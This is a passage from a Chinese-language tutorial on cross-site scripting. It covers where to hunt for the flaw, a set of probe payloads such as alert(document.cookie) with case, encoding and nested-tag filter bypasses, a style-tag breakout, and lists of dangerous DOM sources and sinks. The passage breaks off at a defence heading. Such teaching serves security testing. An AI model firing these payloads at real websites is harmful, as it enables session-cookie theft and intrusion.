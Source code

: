```html
<style>用户输入</style>
<style></style><script>alert('hack')</script><style></style>
```

### 5. 漏洞挖掘

#### 5.1 黑盒测试
> URL 参数<br>
> 表单输入<br>
> 搜索框<br>
> 评论系统<br>
> 个人信息页面

#### 5.2 白盒测试
> 检查输入处理函数<br>
> 检查输出编码<br>
> 检查 DOM 操作<br>
> 检查 JavaScript 事件处理

#### 5.3 常见业务场景
> 重灾区：评论区、留言区、个人信息、订单信息等<br>
> 针对型：站内信、网页即时通讯、私信、意见反馈<br>
> 存在风险：搜索框、当前目录、图片属性等

#### 5.4 漏洞查找方法
##### 基本验证
```javascript
"><script>alert(document.cookie)</script>
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00"><script>alert(document.cookie)</script>
```

##### DOM 型 XSS 查找
检查以下危险的 DOM 属性和 API：
> `document.location`<br>
> `document.URL`<br>
> `document.URLUnencoded`<br>
> `document.referrer`<br>
> `window.location`<br>

检查以下危险的 JavaScript 操作：
> `document.write()` / `document.writeln()`<br>
> `document.body.innerHTML`<br>
> `eval()`<br>
> `window.execScript()`<br>
> `window.setInterval()` / `window.setTimeout()`

### 6. 防御措施
